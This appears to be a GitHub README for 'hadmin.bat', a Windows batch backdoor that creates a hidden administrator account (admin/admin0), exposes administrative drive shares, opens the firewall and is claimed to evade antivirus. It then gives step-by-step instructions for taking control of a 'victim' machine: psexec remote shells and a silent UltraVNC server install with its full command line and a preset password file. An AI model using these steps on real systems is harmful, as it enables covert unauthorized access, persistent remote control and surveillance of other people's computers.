# Natural Backdoor for Windows
# hadmin.bat
Creates permanent and undetectable backdoor over administrative shares on Windoze boxes.
# What is it?
It's batch (cmd) file creates a backdoor which use the native features of windows. It does not create any suspicious anomaly indication in the system. It does not get caught by standard antivirus and firewalls. When the script is run with administrator rights, all hard disk drives of the victim computer are shared to the network as a hidden share (Windows administrational share). The hidden share can only be accessed by a secret administrator user created on the victim system. When the script is run on the victim computer, it performs the following operations, respectively.
- Adds 'admin' user with password 'admin0' into administrators group.
- Hides admin user from control panel and logon screen.
- Enables file sharing on Windows Firewall
- Enables windows administrative file sharing (c$ ipc$ admin$ etc...)
- Disables empty password account security
- Appends the mac address of the victim computer to the end of the script file with a alias.
# Install
Run the script on victim computer with administrative privileges. In some cases Windows Defender Smart Screen blocks to run script because of alternate data stream zone identifier that is appended to the file when it is downloaded from the internet. To run script with administration priviligies try the methods below:
- Via command window with administative privileges: Open windows menu and search "cmd" then right click and select "Run as administrator". Type full path of the bat file or drag&drop the bat file to command window (full path will appear) and press "Enter" to run file.
- Unblock the file: Run windows power shell with administrative privileges and type Unblock-File path/to/hadm.bat. From now on the batch file can be run without limitation. 
# Using
The address \\ip\c$ gives the attacker full access (including write) to the c drive of the victim's computer. See the image below. The admin:admin0 account used for access is a hidden account and does not appear on the victim computer's login screen and control panel. The script also adds the required firewall rule for samba access (windows shares), disabling the user account control. 

![Administrative shares](administrative-shares.png "Administrative shares")

The script prompts for an alias for the target computer before it finishes running. The nickname entered is saved at the end of the hadmin.bat file along with the mac address of the computer on which the script is run. This mac address is stored to identify the victim computer on the network. If necessary, the current IP address of the target computer can be resolved by scanning the network from the mac address added to the end of the file.
# Next Stage: Remote Shell
You can run commands on the victim computer by taking advantage of the RPC feature of Windows. You can access the command line of the remote computer with the psexec program by downloading pstools from [the microsoft site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (sysinternals). PSEXEC tries to connect to the Admin$ share of the remote computer, in order to copy on the remote machine the PSEXecSVC.exe, which is the binary of the Service that will run remotely. The following psexec tutorial runs cmd.exe in interactive mode on the remote computer. Once you have the command line, what you can do is limited by your imagination.

![Remote shell](remote-shell.png "Remote shell")

# Install VNC Server to Victim

You can remotely view or control the victim computer using the UltraVNC tool. For this, follow the steps below.

## Step 1: Download UltraVNC setup

Download the current version of ultravnc from the website to your computer and rename it to uvncsetup.exe.

## Step 2: Copy uvncsetup.exe to victim computer

Copy the unvcsetup.exe file to the victim's computer's system disk. You can use path '\\victim\c$\' to browse victim computer. 

## Step 3: Start installation 

To start silent installation on victim computer run 'uvncsetup.exe' as remotely using PsExec.exe below:

> psexec \\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,startservice" /DIR="%programfiles%\uvnc"

## Step 4: Define new password 

Create the ultravnc.ini file with the password defined in the "%programfiles%\uvnc" of the victim computer. 
UltraVNC password is "admin0" defined in ultravnc.ini. The ini file content is below:

[ultravnc]
passwd=56B6ACA18D1BA76008
passwd2=56B6ACA18D1BA76008

Copy the file to "%programfiles%\uvnc" folder on victim computer.

## Step 5: Restart the service

restart the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

> psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below commands over remote shell:

> net stop uvnc_service
> net start uvnc_service


# Some usefull shell commands

Some functional command examples listed below. 
> fsutil fsinfo drives : Get fixed disk drives list.

[cmd cheat sheet](https://github.com/security-cheatsheet/cmd-command-cheat-sheet)

# Uninstall
Just run uhadmin.bat with administrative privileges Its revert all registry settings and drop admin account.  The control computer can still continue to access the victim computer via the open session. However, this access authorization will be completely lost when the computer is restarted.
# Tested on
- [ ] Windows 7
- [x] Windows 10 32/64
- [ ] Windows 11 32/64

